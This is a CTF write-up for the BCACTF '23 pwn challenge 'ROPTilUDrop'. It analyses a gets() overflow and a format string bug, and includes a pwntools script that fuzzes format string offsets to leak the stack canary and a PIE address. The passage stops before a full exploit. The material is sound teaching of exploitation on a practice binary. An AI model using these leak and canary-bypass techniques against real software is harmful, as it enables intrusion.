 <h3> ROPTilUDrop BCACTF '23 </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c3ffa0b4-7f30-41c7-a299-d1dc8017ab83)

We are given the binary and it's remote libc file tyty 💙

After downloading it let's do some basic file checks
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d1b672f8-eb02-4ada-b99f-4b8539537700)

```
➜  pwn file roptiludrop
roptiludrop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=952f9eb47468c4de465033ac5167308b6f375d59, for GNU/Linux 3.2.0, not stripped
➜  pwn checksec roptiludrop 
[*] '/tmp/pwn/roptiludrop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We are working with a x64 binary which is dynamically linked and not stripped :)

Also from the mitigations check we can see that all protections are enabled 

So this means we are going to have to do some ROPing

Let's run the binary to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7641ddf1-c22d-4fa3-a59a-3c9cc88cd346)

Ok it asks for our input prints the value back with a leak also! and then receives our input again

Using IDA let's perform static anaylsis

Here's the pseudo decompiled main function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aed347cb-2d2f-43b3-9a4f-568f0436a33b)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  life();
  puts("Party!");
  return 0;
}
```

From the main function we see that it just does buffering it then calls the life() function which returns back to the main function and prints out the text `Party!`

Here's the decompiled life function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/83ab3d49-82f8-4ea3-9d8e-875c86fc909a)

```c
unsigned __int64 life()
{
  char format[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("DO NOT STOP ROPPING\n> ");
  gets(format);
  printf(format);
  printf("What is this? %p\n", &printf);
  printf("\nDO NOT STOP ROPPING\n> ");
  fread(format, 1uLL, 0x50uLL, stdin);
  puts(format);
  return __readfsqword(0x28u) ^ v2;
}
```

Here's what it does:
- Stack canary is first initialzed to generate random 8 bytes
- Receives our input using gets() # bug here
- Uses printf to print out input back without using a format specifier # bug here
- Gives us a libc printf leak 
- Reads in 0x50 bytes from standard input to the format buffer
- Checks if the stack canary is still intact then if it returns true it goes back to the main function

From here we can see that we have a format string vulnerability and also a buffer overflow

Since there's a stack canary and also PIE is enabled we would need to work our way around that

The issue with PIE being enabled is that whenever the program runs it's memory region gets randomized making ROPing difficult 

But since we know we've got a format string vulnerability we can leak an ELF section from the binary then calculate the ELF main address

That's settled how about bypassing the stack canary?

Also it can still be bypassed since we've got a format string vulnerability that means we can leak the canary value off the stack 

That's settled I guess?

Let's get to exploitation!!!

We know that the offset to the canary is going to be 24 bytes and we already have a printf libc leak 

So I'll just now leak both the canary and a pie address to use

I made a script to fuzz that for me

```python
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
piebase
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './roptiludrop'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warning'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Let's fuzz x values
for i in range(41):
    try:
        p = start()
        p.recvuntil('>')
        p.sendline('%{}$p'.format(i).encode())
        recv = p.recvline().split()
        result = recv[0].strip(b'What')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

Running it shows this address which the last values doesn't change making it suitable for our PIE leak
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/85132920-fa36-40e9-8f58-164b7cc80a25)

Let's open up our debugger in this case `gdb-gef` and get what that address value it's pointed to
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1bb5f30b-a8ee-4cbe-a5a2-f2cf0a051768)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/61f3f346-c474-461e-b9b1-5a03e94a7586)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5bc54ecd-d7f1-430e-aef8-0d54718564be)

I used `%15$p` since that's the offset we want to leak 

Ok cool that's the main address of the binary which makes our PIE base address calculation quite easy

Now we need to get the canary address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aba84a71-b646-4871-b6cd-4fdf6f7b406a)

From the fuzz script I can tell it's at offset 9 also we can confirm it with using a debugger I used `gdb-pwndgb` I'm quite lazy :(
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/89626a6e-0663-494e-9812-660010059010)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/626457b5-1b4a-4594-a8df-6f4c74ae2ab6)

That's confirmed that our canary offset is at 9 

